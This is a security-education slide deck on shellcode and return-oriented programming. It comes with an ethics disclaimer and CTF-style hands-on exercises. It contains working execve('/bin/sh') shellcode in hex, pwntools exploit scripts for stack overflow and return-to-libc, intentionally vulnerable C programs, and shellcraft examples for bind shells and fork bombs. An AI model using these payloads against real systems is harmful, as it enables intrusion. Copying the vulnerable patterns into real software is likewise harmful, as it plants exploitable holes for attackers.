


<!-- _class: invert title -->

# Exploit / Shellcode and Return Oriented Programming

Phish'n'Chips Team

---

## What is covered

- Code injection attack: Shellcode
- Code reuse attack: Return oriented programming (ROP)
- Manipulating shellcode and ROP with `pwntools`
- Recommended readings prior to this material
    - [Basic knowledge of stack-based buffer overflow](../pwn-bof-stack/pwn-bof-stack.pdf)
    - [Basic knowledge of reverse engineering](../intro_reveng/intro_reveng.pdf)

---

## Disclaimer - ethical use of the content

- This material is solely for the purpose of security education, especially for ethical security researchers, security contest participants and penetration testers. The readers agree that they **do not use the technique for malicious purposes**, such as intruding into other people's computers without the owners' content.
- Disclosing exploitation techniques with a malicious intent is a criminal offense in some countries. The author declares that **the material is created without the aim of misuse or encouraging misuse**, and consists of only publicly available techniques. In case any damage occurs by misuse of this document, the person who used the technique against the law takes complete responsiblility for the consequences, and such act or damage shall not be considered grounds for denying legality of this document under any law in any country.

---

## Revisit: buffer overflow to rewrite return address

Overflow buffer to overwrite return address

<div class=twocolumn>

```c
void win() {
    puts("Win!");
    execl("/bin/sh", "/bin/sh", NULL);
}

void func() {
    char x[8] = "ABCDEFGH";
    char y[8] = "XXXXXXXX";
    char z[8] = "IJKLMNOP";

    scanf("%s", y);
    return;
}
```


<!--
```text
Stack
  +------------------------+
z | I  J  K  L  M  N  O  P |
  +------------------------+ scanf()
y | X  X  X  X  X  X  X  X |   |
  +------------------------+   |
x | A  B  C  D  E  F  G  H |   |
  +------------------------+   v
  | ...                    |
  +------------------------+
  | return address         | <-- jump to
  +------------------------+   this addr
  | ...                    |
  +------------------------+
```
-->

</div>

---

## Jump to arbitrary code &ne; execute arbitrary code

- `win` function in the previous example does not usually exist in executables
- Question: if we can jump to arbitrary location of the code, is it possible to execute arbitrary code?
- Answer: yes, depending on executable protection measures
- There are two types of techniques
    - Code injection attack: Create code at some memory location, and then jump to the code
    - Code reuse attack: Re-use existing code to achieve the attacker's intent

---

## Code injection attack

Data and code are both placed in memory in the same way

<div class=twocolumn>

```c
#include <stdio.h>

// 64bit x86
//   31 c0   xor eax,eax # eax = 0;
//   ff c0   inc eax     # eax++;
//   c3      ret         # return eax;
char x[] = "\x31\xc0\xff\xc0\xc3";
typedef int func_t();

int main() {
  func_t *fp = (func_t *)&x;
  printf("%d\n", fp());  // -> print 1
  return 0;
}
```


<!--
```text
CODE  +--------------------------+
 main | 55 48 89 e5 5d ...       |
      +--------------------------+
      :                          :
DATA  +--------------------------+
 x    | 31 c0 ff c0 c3           |<--+
      +--------------------------+   |
                                     |
STACK +--------------------------+   |
      |                          |   |
      +--------------------------+   |
 fp   | address of x             |---+
      +--------------------------+
      :                          :
```
-->
</div>

---

## Code injection attack

If we can place arbitrary data into memory, and execute that data, we can execute arbitrary code

<div class=twocolumn>

```c
char buffer[1024];
typedef int func_t();

int main() {
  func_t *fp = (func_t *)&buffer;
  read(0, buffer, 1024);
  printf("%d\n", fp());
  return 0;
}
```

```
$ echo 31c0ffc0c3 | xxd -r -p | ./program
1

$ echo 31c0ffc0ffc0c3 | xxd -r -p | ./program
2

$ echo 31c0ffc0ffc0ffc0c3 | xxd -r -p | ./program
3


```

</div>

---
<!-- _class: handson -->

## :memo: hands-on (1): simple code generation

<div class=twocolumn>

1. Create a function returning a constant 123 in x86-64 code.
2. Input the function code to the program `chal1` to execute the code.
   ```c
   char buffer[1024];
   typedef int func_t();
   
   int main() {
     func_t *fp = (func_t *)&buffer;
     read(0, buffer, 1024);
     printf("%d\n", fp());
     return 0;
   }
   ```

Hint:
- You can use compiler/assembler on your own environment, or use online [assembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/) or [compiler](https://gotbolt.org/)
- You can use
  `echo -ne "\x89\xc3" | ./chal1` or `echo 89c3 | xxd -r -p | ./chal1`
  to input binary data to the program

<br>
<br>
</div>

---

## Code injection attack - shellcode

- Challenge: creating binary code for each attack is a tedious task
- Solution: only execute the first attack step by code injection attack,
  and do the high level task afterwards

What would be the first attack step?
<span style="font-size: 2em">**execute /bin/sh**</span> (on Linux)

This kind of code is called **shellcode**, since it executes *shell*

---

## Code injection attack - shellcode

How we can execute shell in x86-64 Linux?
simplest solution (but not always work):

<div class=twocolumn>

```c
#include <stdlib.h>
void binsh() {
  char s[] = "/bin/sh";
  system(s);
}
```

```asm
  movabs  rax, 0x68732f6e69622f
  mov     qword ptr [rsp], rax
  mov     rdi, rsp
  call    system
  ret
```
</div>

- Problem
    - does not work if the program doesn't have `system` function
    - if address space is randomized, attacker cannot determine `system` address

---

## Code injection attack - shellcode

Portable shellcode in x86-64 Linux

<div class=twocolumn>

```c
#include <unistd.h>

void binsh() {
    char cmd[] = "/bin/sh";
    char *cmds[] = {cmd, NULL};
    // execve(cmd, cmds, NULL);
    syscall(0x3b, cmd, cmds, NULL);
}


```

```asm
  movabs  rax, 29400045130965551
  sub     rsp, 40
  xor     edx, edx
  lea     rdi, [rsp+8]
  lea     rsi, [rsp+16]
  mov     QWORD PTR [rsp+8], rax
  mov     QWORD PTR [rsp+24], 0
  mov     QWORD PTR [rsp+16], rdi
  mov     eax, 0x3b
  syscall
  add     rsp, 40
  ret
```

</div>

---

## Code injection attack - shellcode

Let's assemble the above shellcode and input to the program:

```
$ echo 48b82f62696e2f7368004883ec2831d2488d7c2408488d742410488944240848 \
c74424180000000048897c2410b83b0000000f054883c428c3 | xxd -r -p | ./chal1-64
$
```

It seems that nothing happens - actually the shell spawns, but input EOF is reached so it doesn't do anything.

What should we do? Let's use pwntools for input/output interaction!


---
<!-- _class: handson -->

## :memo: hands-on (2): shellcode execution

Write a script with `pwntools` to execute shellcode

```python
from pwn import *

shellcode = ... # put the shellcode here!
                # hint: bytes.fromhex("....") or b"\x..\x.."

p = process('./chal1')
p.send(shellcode)      # input shellcode to the program
p.interactive()        # drop into interactive shell
```

---

## Code injection attack - combine with stack overflow

If an attacker can **put data into static location** (known address) and **overwrite return address**, then arbitrary code execution is possible, by (1) putting shellcode into the static buffer (2) let return address point to the static buffer

<div class=twocolumn>

```c
char buf1[256];

void f() {
  char buf2[64];

  read(0, buf1, 256); // 1st
  puts(buf1);

  read(0, buf2, 256); // 2nd
  puts(buf2);
}
```


<!--
```
DATA   +-------------------------+ read() 1st
 buf1  | shellcode (256 bytes)   |   |  <--------+
       |                         |   V           |
       +-------------------------+   -           |
                                                 |
                                                 |
STACK  +-------------------------+ read() 2nd    |
 buf2  | (64 bytes)              |   |           |
       +-------------------------+   |           |
       | ...   (saved BP)        |   |           |
       +-------------------------+   V           |
       | return addr -> buf1     | --------------+
       +-------------------------+ (overwritten)
       :                         :
       +-------------------------+
```
-->

</div>

---
<!-- _class: handson -->

## :memo: hands-on (3): stack overflow & shellcode

Let's write script using `pwntools` to 

<div class=twocolumn>

```c
char buf1[256];

void f() {
  char buf2[64];

  read(0, buf1, 256); // 1st
  puts(buf1);
  read(0, buf2, 256); // 2nd
  puts(buf2);
}
```

Hint:
1. Understand at the stack layout depicted in the previous page.
2. What is the address of `buf1`?
3. Where is the offset of return address in the second `read()`?

</div>

---
<!-- _class: handson -->

## :memo: hands-on (3): stack overflow & shellcode - solution (partial)

```python
from pwn import *

shellcode = ... # put shellcode here (max 256 bytes)
buf1_addr = ... # put address of buf1 here

p = process('./chal3')

# this value is put into buf1
p.send(shellcode.ljust(256, b'\xcc')) # send after padding
print(p.recv())

# this value is put into buf2
p.send(b'A' * 72 + p64(buf1_addr))    # overwrite return address

p.interactive()
```

---

## Shellcode generation - pwntools

pwntools has a functionality to generate shellcode: [shellcraft](http://docs.pwntools.com/en/stable/shellcraft.html) module

- Example for x86-64 Linux:
  ```python
  from pwn import *
  context.arch = 'amd64'    # set assembler environment

  # generate shellcode (assembly code)
  shellcode_asm = shellcraft.amd64.linux.sh()
  print(shellcode_asm)

  # assemble the shellcode
  shellcode_bin = asm(shellcode_asm)
  print(shellcode_bin.hex())
  ```

---

## Shellcode generation - pwntools

pwntools also has functions to do more complicated operations, such as reading/printing file, connect back to attacker's machine, ...

```python
# open, read and print "flag.txt" file
code = shellcraft.amd64.linux.cat('flag.txt')

# listen on port 12345 and execute shell on connection
code = shellcraft.amd64.linux.bindsh(12345, 'ipv4')

# conduct a fork bomb attack (local DoS)
code = shellcraft.amd64.linux.forkbomb()
```

---

## Countermeasures to shellcode

- W&oplus;X (also known as NX bit)
    - data located at stack and writable data region cannot be executed
    - Mostly programs adopts W&oplus;X in recent systems
    - However, there are still some cases where W&oplus;X is not easily applicable
      (e.g., script language interpreters which use JIT compilation)
- General security measures
    - limit system calls (e.g., restict `exec` using [seccomp](https://en.wikipedia.org/wiki/Seccomp))
    - shellcode detection (but may be evaded by obfuscation)

---

## What can we do, if the program adopts W&oplus;X?

- Shellcode cannot be used any longer
    - Writable memory region is not executable
    - Can only execute already existing code
- **Code reuse attack**
    - Existing code can be executable
    - Take advantage of original code fragments
        - Reuse an existing function as it is: **Return to libc**
        - Concatenate code fragments: **Return oriented programming**

---

## Code reuse attack - return to libc (x86-**32**)

jump to a function address, but also **specifying its arguments** on the stack

<div class=twocolumn>

Basic attack


<!--
```
+-------------+ read()
| buffer      |   |
+-------------+   | overflow
|             |   |
+-------------+   | [nullary func]
| -> win()    |   | return addr
+-------------+   V
|             |
+-------------+
|             |
+-------------+
```
-->

Return to libc


<!--
```
+-------------+ read()
| buffer      |   |
+-------------+   | overflow
|             |   |
+-------------+   | [unary func]
| -> system() |   | return addr
+-------------+   |
|  ------     |   | (dummy)
+-------------+   |
| ->"/bin/sh" |   | (arg 1)
+-------------+   V
```
-->

</div>

---
<!-- _class: handson -->

## :memo: hands-on (4): return to libc (x86-**32**)

Let's run `system("/bin/sh")`!

<div class=twocolumn>

```c
char binsh[] = "/bin/sh";

void my_system(const char *cmd) {
  system(cmd);
}
void f() {
  char buf[16];
  read(0, buf, 64);
  printf("Hello, %s! Your ID is:\n", buf);
  my_system("id");
}
int main() {
  f();
  return 0;
}
```

Hint:
1. What is the offset of return address from the beginning of the buffer?
2. Which function can be used to execute shell? What should be the argument(s)?
3. Where should the function pointer (address) and arguments be located?

<br>

</div>

---
<!-- _class: handson -->

## :memo: hands-on (4): return to libc (x86-**32**) - solution (partial)

```python
from pwn import *
context.arch = 'i386'

binsh = ...     # address of "/bin/sh" string
my_system = ... # address of my_system function

payload = b'A' * 28 + p32(my_system) + b'A'*4 + p32(binsh)

p = process('./chal4')
p.send(payload)
p.interactive()
```

---

## Code reuse attack - challenges in return-to-libc

- It can only execute one function
    - far from "arbitrary code execution", which is possible in shellcode
- If a useful function is not present, this technique is not applicable
- In x86-**64**, arguments are passed by registers, thus not applicable

Solution: **Return Oriented Programming** (**ROP**)

- Chain calls using "next" return address
- Use not only entire functions, but also code fragments which are terminated by a return instruction (**ROP gadget**)
- Use code fragments (ROP gadgets) for various operations: setting registers, discarding stack elements as well as executing arbitrary instructions

---

## Code reuse attack - ROP: chaining calls

example for `gets(str); printf("name=%s", str);` in x86-**32**


<!--
```
                                                           expected payload (merged)
         +--------------+                                   +--------------+
         | buffer       |                                   | AAAA ...     |
         +--------------+                                   +--------------+
         |              |                                   | AAAA ...     |
 vuln()  +--------------+                                   +--------------+
ret addr | -> gets()    |                             ==>   | -> gets()    |
         +--------------+  gets()   +--------------+        +--------------+
         |  ------      | ret addr  | -> printf()  |        | -> printf()  |
         +--------------+           +--------------+        +--------------+
         | -> str       |           |  ------      |        | -> str       |
         +--------------+           +--------------+        +--------------+
         |  ------      |           | -> "name=%s" |        | -> "name=%s" |
         +--------------+           +--------------+        +--------------+
         |  ------      |           | -> str       |        | -> str       |
         +--------------+           +--------------+        +--------------+
```
-->

Note: this only works if the first function is unary, and at most two functions are called

---

## Code reuse attack - ROP: discard stack

If we need to chain calls more than twice, we need to adjust stack pointer by discarding some stack elements by discarding gadget
`func1(argA, argB); func2(argC, argD); func3(argE);`


<!--
```
   vuln() executed             discard2 -> /-------------\
     +--------------+                      | pop eax     |
     | buffer       |                      | pop ebx     |
     +--------------+                      | ret         |
     |              |                      \-------------/               complete ROP chain
     +--------------+                            discard gadget           +--------------+
 ret | -> func1()   |     func1() executed                                | -> func1()   |
     +--------------+-=-=-=-+--------------+                              +--------------+
     | (ret addr)   |       | -> discard2  |                              | -> discard2  |
     +--------------+       +--------------+                              +--------------+
     | argA         |       | (discarded)  |                              | argA         |
     +--------------+       +--------------+                              +--------------+
     | argB         |       | (discarded)  |                              | argB         |
     +--------------+       +--------------+                              +--------------+
                            | -> func2()   |     func2() executed         | -> func2()   |
                            +--------------+-=-=-=-+--------------+       +--------------+
                            | (ret addr)   |       | -> discard2  |       | -> discard2  |
                            +--------------+       +--------------+       +--------------+
                            | argC         |       | (discarded)  |       | argC         |
                            +--------------+       +--------------+       +--------------+
                            | argD         |       | (discarded)  |       | argD         |
                            +--------------+       +--------------+-=-=-=-+--------------+
                                                   | -> func3()   |       | -> func3()   |
                                                   +--------------+       +--------------+
                                                   | (ret addr)   |       |  ------      |
                                                   +--------------+       +--------------+
                                                   | argE         |       | argE         |
                                                   +--------------+       +--------------+
```
-->

---

## Code reuse attack - ROP: finding ROP gadgets

How can we find "discard" gadget (e.g., `pop eax; pop ebx; ret`)?

- [ROPgadget](http://shell-storm.org/project/ROPgadget/) program
  ```
  $ ROPgadget ./binaryprogram
  ```
- pwntools (described later)

---
<!-- _class: handson -->

## :memo: hands-on (5): ROP (x86-**32**) - discard stack

Create `flag.txt` with arbitrary content. Dump the content of `flag.txt` by calling `read_file` / `print_data` with appropriate parameters using a ROP chain.

<div style="font-size: 0.9em">

<div class=twocolumn>


<div style="font-size: 0.7em">

```c
code_t discard_gadget
  = "\x58\x58\x58\x58\x58\x58\x58\xc3";
// pop eax; ...; pop eax; ret
char buf[1024];
void read_file(const char *filename,
               char *buf, int size) {
  FILE *fp = fopen(filename, "r");
  fread(buf, 1, size, fp);
  fclose(fp);
}
void print_data(char *buf) {
  puts(buf);
}
void vuln() {
  char stkbuf[64];
  read(0, buf, 1024);
  memcpy(stkbuf, buf, 1024);
}
```
</div>

Hint:
1. Write a normal program using only the two functions to dump `flag.txt`.
2. Convert each call into ROP form.
3. Find discard gadgets.
4. Adjust stack after call by discard gadget.
5. Put everything into a single ROP chain.

</div>
</div>

---
<!-- _class: handson -->

## :memo: hands-on (5): ROP (x86-**32**) - discard stack: partial solution

1. Normal program to dump `flag.txt`
   ```c
   read_file("flag.txt", buf, 1024);
   print_data(buf);
   ```
2. 

---

## Advanced topics

- Shellcode
    - considering buffer location
    - considering data constraints/conversion
    - typical shellcodes in attacks
- Return Oriented Programming
    - using indirect jump instead of return

---

## Shellcode advanced - Considering buffer location

- Problem: shellcode (user input) location may not be easily identified
    - user input may be loaded into dynamic memory location (stack / heap)
    - program may adopt address randomization (ASLR)
- Solution
    - leak the buffer address by other means
        - use buffer *overread* bug (often comes with buffer *overwrite* bug)
        - use `printf` vulnerability

---

## Shellcode advanced - Considering data constraints

- Program does not always accept arbitrary characters
    - may not accept binary string (only ASCII chars)
    - may stop reading/copying at NUL characters (`0x00` byte) - `scanf` / `strcpy`
    - may stop reading at newline characters (`0x0a` / `0x0d` byte) - `fgets`
    - may stop reading at space characters (`0x20` byte) - `scanf`
- Program may convert data
    - may convert UTF-8 to UTF-16

---

## Shellcode advanced - Considering data constraints

- Solutions to data constraints
    - Obfuscation/encoding to not include rejected characters
    - [Alphanumeric shellcode](https://en.wikipedia.org/wiki/Alphanumeric_shellcode)
        - Write shellcode using only ASCII characters (cool!)
- Solutions to data type conversion
    - [Unicode-proof shellcode](http://phrack.org/issues/61/11.html)
    - [base64 shellcode](https://blog.skullsecurity.org/2017/solving-b-64-b-tuff-writing-base64-and-alphanumeric-shellcode)

---

## Shellcode advanced - Typical shellcodes used in attacks

- run a shell in victim's machine
- connect back to attacker's machine
    - "reverse shell"
    - Metasploit uses this feature to intrude into other machines
- add a new user to the system

http://shell-storm.org/shellcode/

---
<!-- _class: invert -->

## Thank you for listening!

Questions? :slightly_smiling_face:

---
<!-- _class: invert -->

These slides are licensed under Create Commons
Attribution 4.0 International License (CC-BY 4.0)

<!-- see https://creativecommons.org/about/downloads/ for logo -->

Created/Modified by:
- 2021: Fukutomo Nakanishi
